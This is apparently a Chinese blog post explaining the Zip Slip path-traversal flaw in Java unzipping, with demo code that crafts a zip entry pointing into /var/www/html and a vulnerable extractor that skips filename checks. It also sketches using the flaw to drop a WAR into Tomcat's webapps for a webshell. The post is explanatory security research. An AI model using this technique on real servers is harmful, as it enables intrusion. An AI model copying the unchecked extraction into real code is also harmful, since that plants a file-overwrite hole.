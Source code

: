 ```yaml
---
layout: post
title: Java文件解压的安全问题   
tags: [Java]
comment: false
---
```


前几天有文章([传送门](https://research.checkpoint.com/parsedroid-targeting-android-development-research-community/))分析了 Apktool 之前版本存在的两个漏洞，其中第二个漏洞是解包 Apk 时通过类似目录遍历的方式把 unknown 中的脚本解压到线上的网站目录从而实现 RCE。这让我想起了之前一篇讲述 Python 中解压文件时的安全问题的文章([传送门](http://bobao.360.cn/learning/detail/4503.html))，其实 Apktool 这个也是 Java 做文件解压时存在一样的问题了。

### 0x01 Demo 代码

Java 中做压缩/解压操作代码

```java
package ZipTest;

import java.io.*;
import java.util.zip.ZipEntry;
import java.util.zip.ZipFile;
import java.util.zip.ZipInputStream;
import java.util.zip.ZipOutputStream;

/**
 * Created by k1n9 on 2017/12/7.
 */
public class Demo {
    public static void main(String[] args) throws Exception {

        ZipCompressSingleFile();
        ZipDecompressFile();

    }

    public static void ZipCompressSingleFile() throws Exception {
        System.out.println(System.getProperty("user.dir"));

        ZipOutputStream zos = new ZipOutputStream(new FileOutputStream("/Users/k1n9/IdeaProjects/JavaLearn/test.zip"));
        ZipEntry entry = new ZipEntry("../../../../../../../../../../../var/www/html/test.txt");
        zos.putNextEntry(entry);

        InputStream is = new FileInputStream("/Users/k1n9/IdeaProjects/JavaLearn/test.txt");
        int len = 0;
        while ((len = is.read()) != -1) {
            zos.write(len);
        }

        is.close();
        zos.close();
    }

    public static void ZipDecompressFile() throws Exception {
        File file = new File("./test.zip");

        ZipFile zf = new ZipFile(file);
        ZipInputStream zis = new ZipInputStream(new FileInputStream(file));
        ZipEntry zipEntry = null;

        while ((zipEntry = zis.getNextEntry()) != null) {
            String filename = zipEntry.getName();
            File f = new File("/Users/k1n9/IdeaProjects/JavaLearn/" + filename);

            if (!f.getParentFile().exists()) {
                f.getParentFile().mkdirs();
            }

            BufferedOutputStream bos = new BufferedOutputStream(new FileOutputStream(f));
            InputStream is = zf.getInputStream(zipEntry);
            byte[] data = new byte[2048];
            int len = 0;

            while ((len = is.read(data)) != -1) {
                bos.write(data, 0, len);
            }

            bos.close();
            is.close();
        }
        zis.close();
    }
}
```


压缩包中恶意文件路径的构造在实例化 ZipEntry 对象的时候，可以传入往上次目录跳这样的路径，这样压缩后的文件效果如下
![](https://i.loli.net/2017/12/09/5a2b6bb14cbdd.png)

那么在做解压操作时要是没有去验证 ZipEntry 中的文件名是否合法便直接加到路径中写出来的话就会造成文件最终被解压到系统上其它的目录去了。在解压函数中还有一个对父目录的检测的，如果不存在的话就去创建这个父目录，因为真实情况的话往往会创建一个以时间戳来命名的目录再把文件解压到里面去，这里会有个问题，例如

```
/Users/k1n9/IdeaProjects/JavaLearn/test.txt
```
这个是预设中的目标路径，JavaLearn 目录不存在的话便创建一个，这里没啥问题。但是在我们构造一个恶意路径后成了这样

```
/Users/k1n9/IdeaProjects/JavaLearn/../../../../../../../../../../../var/www/html/test.txt
```
这里要是 JavaLearn 目录不存在也不会被创建，由于路径中的 JavaLearn 不存在，在 Linux 文件系统下这样的路径是非法的了，最终会抛出 FileNotFoundException 异常，文件也不会写出来。但是这种情况在 Windows 文件系统中无关系了，一样可以写出来。

### 0x02 如何利用

假如是在 Tomcat 上的话，构造好一个 war 包，路径跳到 webapps。只要解压了，war 包被写到 webapps 目录中，再借助热部署完成 getshell。这只是一个想法了，也可以选择覆盖掉一些配置文件等等。当然要想真正利用还是有前提的：

- 已经获取到了目标的路径（默认或者爆破式的猜也是一些选择了）
- 要是解压路径有加类似时间戳这样的路径就还得考虑目标系统类型了